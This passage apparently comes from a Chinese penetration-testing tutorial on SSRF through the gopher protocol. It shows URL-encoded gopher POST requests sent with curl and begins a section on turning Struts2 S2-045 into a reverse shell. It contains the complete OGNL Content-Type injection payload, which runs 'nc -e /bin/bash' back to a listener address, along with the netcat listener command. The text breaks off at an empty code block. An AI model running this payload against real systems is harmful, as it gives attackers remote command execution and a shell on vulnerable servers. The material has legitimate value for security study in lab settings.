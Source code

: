 ```
192.168.0.119 - - [07/Mar/2020:15:19:49 +0800] "name=Margin" 501 213
[Sat Mar 07 15:38:50 2020] [error] [client 192.168.0.119] Invalid method in request name=Margin
```
这里有个疑问：为什么发起了2次请求？为什么会把参数name=Margin当作一个请求？这个地方我调试了很久，发现问题出现在POST请求头中，我之前发POST请求都是直接用脚本，但从来没考虑过哪些参数是POST请求必须的，经过排查，发现有4个参数为必要参数（四个参数的含义不再赘述）：
```http
POST /ssrf/base/post.php HTTP/1.1
host:192.168.0.109
Content-Type:application/x-www-form-urlencoded
Content-Length:11

name=Margin
```
现在我们将它进行URL编码：
```http
curl gopher://192.168.0.109:80/_POST%20/ssrf/base/post.php%20HTTP/1.1%0d%0AHost:192.168.0.109%0d%0AContent-Type:application/x-www-form-urlencoded%0d%0AContent-Length:11%0d%0A%0d%0Aname=Margin%0d%0A
```
再次发送请求的结果为：<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1624628323373-f064bad3-dbc3-4bb8-a987-6fb0848470c0.png#align=left&display=inline&height=510&id=u6318a58c&margin=%5Bobject%20Object%5D&name=image.png&originHeight=510&originWidth=2243&size=1021097&status=done&style=none&width=2243)<br />发现请求正常，OK，那我们现在就介绍完了gopher协议的GET和POST请求。
### 如何使用Gopher协议反弹shell（渗透Java的Struts2框架）
Struts2框架是一个用于开发Java EE网络应用程序的开放源代码网页应用程序架构。它利用并延伸了Java Servlet API，鼓励开发者采用MVC架构。Struts2以WebWork优秀的设计思想为核心，吸收了Struts框架的部分优点，提供了一个更加整洁的MVC设计模式实现的Web应用程序框架 (_**摘自百度百科**_)<br />今天我们用到的漏洞是Struts2-045漏洞，相信很多大佬不陌生，以下为S2-045漏洞反弹shell的利用代码，我们在本地机器上执行：nc -lp 6666
```http
GET /S2-045/ HTTP/1.1
Host: 192.168.0.119
Content-Type:%{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='nc -e /bin/bash 192.168.0.119 6666').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```
我们将其变为gopher所能使用的请求
```http
```